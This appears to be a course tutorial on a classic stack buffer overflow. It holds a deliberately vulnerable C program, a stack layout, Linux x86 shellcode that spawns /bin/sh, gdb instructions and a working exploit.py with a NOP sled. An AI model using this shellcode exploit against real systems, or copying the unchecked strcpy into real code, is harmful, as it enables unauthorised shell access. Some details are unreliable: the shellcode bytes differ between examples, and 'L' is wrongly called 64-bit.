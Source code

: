 # Buffer Overflows
This is a tutorial of Stack Buffer Overflow attacks. Credit to 'Smashing The Stack For Fun And Profit by Aleph One' 
for a detailed description of how to do this and Manuel Egele megele@bu.edu for creating the challenge 
(specifically providing prog5.c and the template for how to create exploit.py).

Author: Chase Clarke cfclarke@bu.edu


# prog5.c source
```
//compile with $ gcc prog5.c -o prog5

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

//check the string passed from the command-line and print message accordingly. Vulnerable program


int processInput(char *input)
{		
		char buffer[512];

		strcpy(buffer,input);

		printf("Hello, what is the magic word?: You said %s\n",buffer);

		/* check if the string is equal to the super secret string */

		if (strcmp(buffer,"Please please pretty please!")==0)
		{
				fprintf(stdout,"Woaaaa, you got it!\n");
		}
		else
		{
				fprintf(stdout,"Epic Fail! Epic Fail! Epic Fail! Epic Fail!\n");
		}

		/* great success! */
		return 0;
}

//program accepts two parameters, there is a simple buffer overflow...
```

```
int main(int argc, char **argv)
{
		//check arguments
		if (argc<2)
		{
				fprintf(stdout,"Synopsis: vuln1 <magic word>\n\n");
				exit(1);
		}

		//process the input
		processInput(argv[1]);

		return 0;
}
  
```

# ---------- prog5 stack ------------------ #


Stack after 'processInput' is called but before stack pointer returns to main:


Towards BOTTOM of stack - TOP of memory

```
	.           .     
	.           .     
	.           .     

	|           |
	|           |
	  ---------       =
	|           |     |
	|           |     |
	  ---------    vars passed into program
	| *input    |     |
	|           |     |
	  ---------       =
	| return    |
	| addr.     |
	  --------- 
	| EBP       |
	|           |
	  ---------       
        | ESP       |     
	|           |     
	  ---------       =
	|           |     |
	|           |     |
	         	local variables
	|           |     |
	| buffer    |     |
	    		  
	.           .     
	.           .     
	.           .     
```


Towards TOP of stack - BOTTOM of memory




So ===> 512 bytes for buffer, 8 bytes for stack and base pointers, 
	and the final 4 bytes for overwriting the return address 
	to main.


Now that you have an idea of what the stack looks like and where the stored eip pointer (return address to main) 
is stored, you are going to need code that opens a new shell.
A shell script is assembly built to open a new shell encoded so python can print it correctly.

The shell code I used: (source - http://shell-storm.org/shellcode/files/shellcode-811.php)
	
	To make this as simple as possible, I used code from 'shell storm' instead of writing my own.

	* note that this shell code only works on Linux x86 systems. Find your systems code on shell-storm.org *
	* more on shell code: https://en.wikipedia.org/wiki/Shellcode *

	code used:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2
			\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff



The last bit of information you need to collect is a new return address to replace the stored eip pointer.

You can get this using gdb:
	This is a tricky part because the address on the stack could change at any time if, for instance, any 
	environment variables change or the size of anything in your program changes.


Running gdb without the worry of environment variables:
	
	$ env - gdb prog5                    - clears most env vars. O/w stack cluttered and addresses constantly change

		(gdb) show env               - show remaining environment variables.
 
  		(gdb) unset env VARNAME      - remove one of the remaining set env vars
 
		(gdb) show env               - one last time to ensure all environment variables are removed


Helpful notes for using gdb:
	to run or rerun your program:
		(gdb) r "input_here"

	Set breakpoint:
		(gdb) b *main+offset - example: b *main+78

	delete breakpoint:
		(gdb) delete [breakpoints] [range...]


	print first 500 addresses stored on stack:
		(gdb) x/500xw $esp


	(gdb) info frame         - gives where your instruction pointer is at
	(gdb) info registers     - gives the values contained in all of your registers


Now that you have the program running correctly in gdb, you need to:
	
	Use the above notes to set a breakpoint the instruction before instructionProcess returns.
	
	Look at the stack at that time.
	
	Find an address that points directly back into your nops (no operation instruction in x86 assembly).

	Save that address and use it as your new return address to replace the stored eip pointer.


Taking into account all the above, you will need 524 bytes total. 520 for buffer and stored pointers, 4 for overwriting 
the return address.

But you have one more problem. What do you do with the extra space in the buffer that is not used by your shell code?
Easy, padd it with nops. These are no operation assembly instructions that tell the system to just go to the next line. 
Encoded as '\x90'

So ===>

You can now write a python script that prints out the shell code at the correct size, padded by the nops:
```
	`python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89
		\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```

you can launch your new shell by running the prog5 executable with the above python script as the input:
```
	$ prog5 `python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89
		\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```


The process of manually creating these python scripts can be tedious. 
To remedy this you can create a python file (exploit.py) shown below that requires:

	The length in bytes from the start of the buffer to the start of the return address.

	The return address you found with gdb.


// ---------- exploit.py source ------------------ //
```
#run with prog5 $(python exploit.py)

#!/usr/bin/env python

import sys, struct

#buf_len is the length of your input from the start of the buffer to the begging of the return address.
#ret_addr is the return address that brings you back into your NOPS. This will CHANGE regularly
buf_len = 520
ret_addr = 0xffff4ac0


#payload is the correctly presented shell code.
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


#combining all the above. '<' means little-endian in the struct.pack and 'L' signifies 64 bit OS.
buf = ('\x90' * (buf_len - len(payload))) + payload + struct.pack('<L', ret_addr)

#writing to the shell
sys.stdout.write(buf)
```
